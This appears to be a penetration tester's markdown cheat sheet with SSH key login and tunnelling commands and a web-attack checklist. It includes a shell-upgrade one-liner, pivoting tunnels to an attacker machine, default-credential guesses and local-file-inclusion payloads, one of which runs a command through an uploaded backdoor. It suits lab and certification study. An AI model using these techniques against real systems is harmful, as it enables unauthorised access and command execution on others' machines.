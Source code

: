 
# SSH
## SSH connect
```bash
# ssh with private key
ssh -i id_rsa -p 2222 root@192.168.x.x 
```
## SSH Key
- See if other users can login as root using ssh key

```bash
# Generate ssh key:
ssh-keygen

# Connect with ssh key:
ssh -i id_rsa root@192.168.x.x

# To handle "Received disconnect from 127.0.0.1 port 22:2: Too many authentication failures" error:
ssh -i id_rsa root@192.168.x.x -o IdentitiesOnly=yes
```

## SSH Tennling
```bash
# Local port forwarding
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# Local dynamic port forwarding
sudo systemctl start ssh 
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# Remote port forwarding
sudo systemctl start ssh
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

# Remote dynamic port forwarding
ssh -N -R 9998 kali@192.168.118.4
```



# Web Attacks
## Checklist
- sudo nmap -p80 --script=http-enum 192.168.x.x
- Gobuster
- Feroxbuster
  - phpinfo.php --> check "DOCUMENT_ROOT"
- nikto
- curl -v
- burp suite
- subdomain using wfuzz
- USE BURP!! when logging in:: admin:admin admin:password admin:null
  - Check cookie(urldecode -> base64decode)
- CMS exploit
- View page/page sources
- Local File Inclusion
  - Click stuff to find out if we can find this ?file, ?page
  - ?page=C:/Windows/System32/drivers/etc/hosts
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami